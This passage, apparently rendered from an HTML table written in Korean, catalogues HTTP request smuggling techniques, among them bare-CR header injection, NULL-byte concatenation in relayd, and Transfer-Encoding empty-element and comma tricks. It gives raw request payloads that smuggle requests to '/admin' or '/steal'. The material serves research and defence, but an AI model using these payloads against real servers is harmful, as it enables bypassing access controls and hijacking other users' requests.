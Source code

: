       <td>Transfer-Encoding: chunked 요청에서 청크 종료 시점인 0\r\n 뒤에 임의의 두 문자를 붙이면, 백엔드의 Puma 서버는 CRLF 다음 두 문자를 “청크 스트림 종료”로 인식해 그 이후를 새로운 요청으로 분리하지만, 프론트엔드의 다른 서버들은 해당 두 문자가 trailer-field(예: A:…)로 해석하여 단순히 추가 헤더로 처리하기 때문에 HTTP 메시지 경계가 불일치하여 GET /evil HTTP/1.1 요청이 실행될 수 있는 HTTP Request Smuggling 기법이다. 단, A: 뒤에 공백이 있어야 프론트엔드가 헤더로 인식하므로, 공백을 삽입하면 공격이 무력화된다.) </td>
      <td>[4]</td>
    </tr>
    <tr>
      <td>Bare‑CR Header Field Injection</td>
      <td><pre><code>GET / HTTP/1.1\r\n
Host: victim\r\n
Whatever: foo\rContent-Length: 10\r\n
\r\n
[10바이트 데이터]\r\n</code></pre></td>
      <td>헤더 라인 구분자를 CRLF만 인정해야 하지만, 일부 구현이 CR(또는 LF, NULL)를 라인 끝으로 허용·전달하는 차이를 악용</td>
      <td>[4]</td>
    </tr>
    <tr>
      <td>NULL‑byte concatenation</td>
      <td><pre><code>POST / HTTP/1.1
Host: victim
Content-Length: 6
X-Exploit: A\0Content-Length: 13 
<br>
HELLO!
GET /admin HTTP/1.1
Host: victim
</code></pre></td>
      <td>클라이언트가 Content-Length: 6 헤더를 포함한 뒤에 X-Exploit: A\0Content-Length: 13처럼 NULL 바이트(\0)를 삽입한 추가 데이터를 전송하면 발생한다. relayd는 NULL 바이트를 무시하지 않고 “바이트 그대로” 직전 헤더 뒤에 이어붙여 백엔드로 전송하는데, 이때 relayd 자체는 Content-Length를 13으로 파악해 전체 메시지를 수신 대기하지만, 백엔드 서버는 첫 번째 Content-Length: 6만 읽고 이후 NULL 바이트 이후의 데이터(“Content-Length: 13” 및 그 뒤에 숨겨진 GET /admin HTTP/1.1 요청)를 본문 일부가 아닌 새로운 요청으로 처리할 수 있다. 따라서 공격자는 본문 6바이트 이후에 숨겨둔 추가 요청을 백엔드에 Smuggling 할 수 있게 된다.</td>
      <td>[4]</td>
    </tr>
    <tr>
      <td>Leading empty element</td>
      <td><pre><code>POST / HTTP/1.1\r\n
Transfer-Encoding: ,chunked\r\n
\r\n
0\r\n
\r\n
GET /admin HTTP/1.1\r\n
Host: victim\r\n
\r\n</code></pre></td>
      <td>리스트형 헤더(Transfer-Encoding 등)의 빈 요소 처리 규약이 RFC ABNF에 명시돼 있지 않아, 빈 요소를 무시해야 하지만 일부 구현이 빈 요소를 구분·전달하는 차이를 이용</td>
      <td>[4]</td>
    </tr>
    <tr>
      <td>Multiple commas</td>
      <td><pre><code>POST / HTTP/1.1\r\n
Transfer-Encoding: chunked,,chunked\r\n
\r\n
0\r\n
\r\n
GET /steal HTTP/1.1\r\n
Host: victim\r\n
\r\n</code></pre></td>
      <td>리스트형 헤더(Transfer-Encoding 등)의 빈 요소 처리 규약이 RFC ABNF에 명시돼 있지 않아, 빈 요소를 무시해야 하지만 일부 구현이 빈 요소를 구분·전달하는 차이를 이용</td>
      <td>[4]</td>
    </tr>
    <tr>
      <td>Negative Content‑Length</td>